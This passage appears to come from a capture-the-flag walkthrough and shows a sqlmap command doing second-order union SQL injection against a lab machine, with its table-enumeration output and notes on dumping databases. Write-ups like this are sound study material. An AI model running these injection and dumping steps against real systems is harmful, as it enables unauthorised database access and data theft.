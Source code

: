     
    root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0
    .1:8080 --dbs --tables --no-cast
    ...
    [06:36:59] [INFO] fetching tables for databases: 'information_schema, notes, sysadmin'
    [06:36:59] [INFO] used SQL query returns 65 entries
    Database: sysadmin
    [2 tables]
    +---------------------------------------+
    | configs                               |
    | users                                 |
    +---------------------------------------+
    
    Database: notes
    [2 tables]
    +---------------------------------------+
    | notes                                 |
    | users                                 |
    +---------------------------------------+
    
    
    Database: information_schema
    [61 tables]
    +---------------------------------------+
    | CHARACTER_SETS                        |
    | COLLATIONS                            |
    | COLLATION_CHARACTER_SET_APPLICABILITY |
    | COLUMNS                               |
    ...
    | VIEWS                                 |
    +---------------------------------------+
    

### Dumping Data

The `--dump` flag will give the entries from a database. By default, that’s
the current database in use by the application. There’s also a `--dump-all`
which will dump all databases, and a `--exclude-sysdbs`.

But in this case, we want to be a bit more granular. We probably don’t want
the `information_schema` database. And we want to be really careful with the
`notes` database, as we’ve created a bunch of users in it with each
registration.

So let’s start with the `sysadmin` database:

    
    